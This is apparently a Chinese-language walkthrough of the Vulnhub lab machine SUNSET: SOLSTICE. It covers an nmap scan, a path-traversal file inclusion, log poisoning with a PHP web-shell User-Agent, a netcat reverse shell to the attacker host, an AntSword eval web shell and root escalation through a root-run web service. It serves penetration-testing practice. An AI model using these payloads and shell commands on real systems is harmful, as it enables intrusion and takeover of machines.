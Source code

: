 ```yaml
---
layer: article
title: Vulnhub	499	SUNSET: SOLSTICE
categories: pentest vulnhub
---
```


靶机链接：<https://www.vulnhub.com/entry/sunset-solstice,499/>

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

```bash
$ export rip=10.0.2.4
                                                                                         $ nmap -v -A -p- $rip
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 20:31 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Initiating Ping Scan at 20:31
Scanning 10.0.2.4 [2 ports]
Completed Ping Scan at 20:31, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:31
Completed Parallel DNS resolution of 1 host. at 20:31, 0.00s elapsed
Initiating Connect Scan at 20:31
Scanning localhost (10.0.2.4) [65535 ports]
Discovered open port 22/tcp on 10.0.2.4
Discovered open port 139/tcp on 10.0.2.4
Discovered open port 25/tcp on 10.0.2.4
Discovered open port 445/tcp on 10.0.2.4
Discovered open port 80/tcp on 10.0.2.4
Discovered open port 21/tcp on 10.0.2.4
Discovered open port 8593/tcp on 10.0.2.4
Discovered open port 3128/tcp on 10.0.2.4
Discovered open port 62524/tcp on 10.0.2.4
Discovered open port 54787/tcp on 10.0.2.4
Discovered open port 2121/tcp on 10.0.2.4
Completed Connect Scan at 20:31, 11.05s elapsed (65535 total ports)
Initiating Service scan at 20:31
Scanning 11 services on localhost (10.0.2.4)
Completed Service scan at 20:31, 18.55s elapsed (11 services on 1 host)
NSE: Script scanning 10.0.2.4.
Initiating NSE at 20:31
NSE: [ftp-bounce] PORT response: 501 Rejected data connection to foreign address 45.33.32.156:20560.
Completed NSE at 20:31, 17.54s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.15s elapsed
Initiating NSE at 20:31
Completed NSE at 20:31, 0.00s elapsed
Nmap scan report for localhost (10.0.2.4)
Host is up (0.0011s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-13T20:31:35-04:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-14T00:31:35
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

于是想包含apache2日志或者auth.log

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log>发现包含失败，应该是权限不够。

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787> web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对<http://10.0.2.4:80>的访问会写入`/var/log/apache2/access.log`日志。

本地启动`/etc/init.d/apache2 start`

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](D:\Users\oncen\Desktop\499\1.JPG)

![2](D:\Users\oncen\Desktop\499\2.JPG)

写入成功

上靶机

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](D:\Users\oncen\Desktop\499\4.JPG)

尝试写入当前目录，发现可写，果断上个一句话连antsword。这里第一次连接失败，断掉nc连接

![6](D:\Users\oncen\Desktop\499\6.JPG)

也可以直接写antsword用的`<?php eval($_POST[123]); ?>`

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](D:\Users\oncen\Desktop\499\7.JPG)

刚好文件又可以写入，果断写入nc反弹

![9](D:\Users\oncen\Desktop\499\9.JPG)

```
curl http://127.0.0.1:57
```

获得root

![10](D:\Users\oncen\Desktop\499\10.JPG)

wget <https://pan.iihack.com/d/Software/AntSword/AntSword-Loader-v4.0.3-linux-x64.zip>
wget <https://pan.iihack.com/d/Software/AntSword/antSword-2.1.15.zip>

unzip AntSword-Loader-v4.0.3-linux-x64.zip

unzip antSword-2.1.15.zip

cd antSword-2.1.15

```
mv node_modules/mime/mime.js node_modules/mime/Mime.js
```

```
$ python -m 'http.server' 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
